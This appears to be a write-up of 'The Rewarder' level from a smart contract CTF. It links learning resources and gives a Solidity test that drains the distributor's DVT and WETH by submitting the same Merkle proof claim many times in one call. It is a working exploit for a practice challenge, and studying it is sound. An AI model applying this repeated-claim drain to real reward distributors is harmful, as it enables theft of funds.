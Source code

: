 # 5. The Rewarder

- The exploit in this level is a logic flaw in the if checks in the main logic of the contract
- Concepts explored in this level include:

## Merkle tree

- https://www.youtube.com/watch?v=n6nEPaE7KZ8

## Bitwise operators

- https://www.cyfrin.io/glossary/bitwise-operators-solidity-code-example
- The bitwise operations are used here for gas optimisations - they are not part of the exploit but are interesting nonetheless

## Solution

```solidity
function test_theRewarder() public checkSolvedByPlayer {
    uint256 playerLeafIndex = 188;
    uint256 playerDvtAmount = 11524763827831882;
    uint256 playerWethAmount = 1171088749244340;

    uint256 dvtClaims = dvt.balanceOf(address(distributor)) / playerDvtAmount;
    uint256 wethClaims = weth.balanceOf(address(distributor)) / playerWethAmount;

    IERC20[] memory tokensToClaim = new IERC20[](2);
    tokensToClaim[0] = IERC20(address(dvt));
    tokensToClaim[1] = IERC20(address(weth));

    bytes32[] memory dvtLeaves = _loadRewards("/test/the-rewarder/dvt-distribution.json");
    bytes32[] memory wethLeaves = _loadRewards("/test/the-rewarder/weth-distribution.json");

    Claim[] memory claims = new Claim[](dvtClaims + wethClaims);

    for (uint256 i = 0; i < dvtClaims; i++) {
        claims[i] = Claim({
            batchNumber: 0,
            amount: playerDvtAmount,
            tokenIndex: 0,
            proof: merkle.getProof(dvtLeaves, playerLeafIndex)
        });
    }

    for (uint256 i = 0; i < wethClaims; i++) {
        claims[i + dvtClaims] = Claim({
            batchNumber: 0,
            amount: playerWethAmount,
            tokenIndex: 1,
            proof: merkle.getProof(wethLeaves, playerLeafIndex)
        });
    }

    distributor.claimRewards({inputClaims: claims, inputTokens: tokensToClaim});

    dvt.transfer(recovery, dvt.balanceOf(address(player)));
    weth.transfer(recovery, weth.balanceOf(address(player)));

    console.log("recovery dvt balance", dvt.balanceOf(recovery));
    console.log("distributor leftover dvt balance", dvt.balanceOf(address(distributor)));
    console.log("recovery weth balance", weth.balanceOf(recovery));
    console.log("distributor leftover weth balance", weth.balanceOf(address(distributor)));
}
```
